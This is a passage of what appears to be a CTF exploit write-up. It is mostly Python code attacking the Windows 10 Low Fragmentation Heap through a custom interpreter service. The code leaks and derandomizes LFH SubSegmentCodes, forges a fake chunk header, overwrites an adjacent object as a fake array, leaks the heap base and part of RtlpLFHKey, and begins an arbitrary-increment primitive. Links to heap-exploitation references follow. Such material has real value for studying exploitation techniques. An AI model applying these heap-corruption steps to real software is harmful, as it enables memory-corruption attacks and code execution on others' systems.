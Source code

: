 ```python
        var_next_ssc.append(recv_int_arr('cpy{}'.format(i))[-1])
    log.info('SubSegmentCode leaks: [' + ', '.join('{:08X}'.format(ssc) for ssc in var_next_ssc) + ']')

    log.info('Derandomizing target LFH chunks...')
    var_idx, zero_ssc = derandomizer(0x6700, 0x50, 0x40, var_next_ssc)
    chunk_ssc = [0] * 0x32
    log.success('Derandomization complete: ' + str(var_idx))

    log.info('Remapping variable names based on derandomization info...')
    for i in range(0x32):
        interp('let chunk{} var{}'.format(var_idx[i], i))
    for i in range(0x32):
        interp('del var{}'.format(i))
    log.success('Remapping success. chunk0 ~ chunk{} is now ordered.'.format(0x32 - 1))
    log.info('Computed SubSegmentCode of chunk0: {:08X}'.format(zero_ssc))

    # overwriting chunk25 SubSegmentCode to fake computed UserBlocks as 0x168 LFH UserBlocks #1
    # this fakes it as 25th chunk of 0x168 LFH UserBlocks #1 at free
    fake_offset = 0x6700 + 0x50 * 25 + 0x40 - 0x4AE0
    fake_ssc = SSCEncode(zero_ssc, 0x6700, 0x50, 0x40, 25, fake_offset)
    log.info('chunk25 offset from 0x168 LFH UserBlocks #1: {:X}'.format(fake_offset))
    log.info('Writing fake SubSegmentCode {:08X} to chunk25...'.format(fake_ssc))

    # reallocate chunk24 as OOB-able optimized integer array
    interp('del chunk24')
    interp('copy chunk24 chunk0')
    interp('setarr chunk24 0xd {}'.format(fake_ssc))

    log.info('Freeing chunk25 into 0x168 LFH UserBlocks #1...')
    interp('del chunk25')
    # 0x48 LFH UserBlocks #2 will see chunk25 as still allocated

    log.info('Allocating fake free chunk...')
    # try overwriting chunk26 as a fake Object as below
    payload  = ['int0'] * (0x3c // 4)  # chunk25 area & chunk26 header
    payload += ['int255', 'int0']      # refcnt 0xff
    payload += ['int2', 'int0']        # type Array<?> (unoptimized array)
    payload += ['int1', 'int0']        # length 1, 4 padding byte
    payload += ['int0', 'int0']        # element NULL
    interp('letarr fake {} {}'.format(len(payload), ' '.join(payload)))
    assert(interp('type chunk26') == 'Array<?>')
    log.success('Allocated fake free chunk, chunk26 overwritten.')

    log.info('Leaking heap address...')
    interp('setarr chunk26 0 chunk0')
    chunk0_obj_addr = d2q(recv_int_arr('fake')[-2:])
    _HEAP = chunk0_obj_addr - (0x6700 + 0x40 + 0x10)
    log.success('_HEAP:      {:016X}'.format(_HEAP))
    assert(_HEAP & 0xffff == 0)
    RtlpLFHKey_lo = (zero_ssc ^ _HEAP ^ ((chunk0_obj_addr - 0x10) >> 4) ^ (0x40 << 12)) & 0xffffffff
    log.success('RtlpLFHKey: ????????{:08X}'.format(RtlpLFHKey_lo))

    inc_ctr = 0
    def inc(addr, ctr=1):
        global inc_ctr
        if ctr <= 0:
            return
        d2 = q2d(addr)
        interp('setarr fake 0x15 {}'.format(d2[0]))
        interp('setarr fake 0x16 {}'.format(d2[1]))
        interp('getarr inc{} chunk26 0'.format(inc_ctr))
```

[PDBEX]: https://github.com/wbenny/pdbex
[REF1]: https://www.slideshare.net/AngelBoy1/windows-10-nt-heap-exploitation-english-version
[REF2]: https://github.com/peleghd/Windows-10-Exploitation/blob/master/Low_Fragmentation_Heap_(LFH)_Exploitation_-_Windows_10_Userspace_by_Saar_Amar.pdf